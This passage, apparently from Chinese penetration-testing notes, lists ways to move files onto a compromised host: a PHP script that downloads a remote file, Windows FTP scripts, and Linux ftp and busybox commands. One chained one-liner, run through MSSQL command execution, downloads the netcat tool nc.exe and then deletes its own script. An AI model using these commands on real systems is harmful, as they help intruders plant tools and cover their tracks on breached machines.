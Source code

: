 ![](/sourcepictures/2017/11/06/4/6.jpg)

####其他传输方式  
1、php脚本文件下载  
```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

2、ftp文件下载  
```
>**windows下**
>ftp下载是需要交互，但是也可以这样去执行下载
open host
username
password
bin
lcd c:/
get file
bye
>将这个内容保存为1.txt， ftp -s:"c:\1.txt"
>在mssql命令执行里面(不知道为什么单行执行一个echo,总是显示两行),个人一般喜欢这样
echo open host >> c:\hh.txt & echo username >> c:\hh.txt & echo password >>c:\hh.txt & echo bin >>c:\hh.txt & echo lcd c:\>>c:\hh.txt & echo get nc.exe  >>c:\hh.txt & echo bye >>c:\hh.txt & ftp -s:"c:\hh.txt" & del c:\hh.txt

>**linux下**

>bash文件
ftp 127.0.0.1
username
password
get file
exit

>或者使用busybox里面的tftp或者ftp
>busybox ftpget -u test -P test 127.0.0.1 file.zip
```
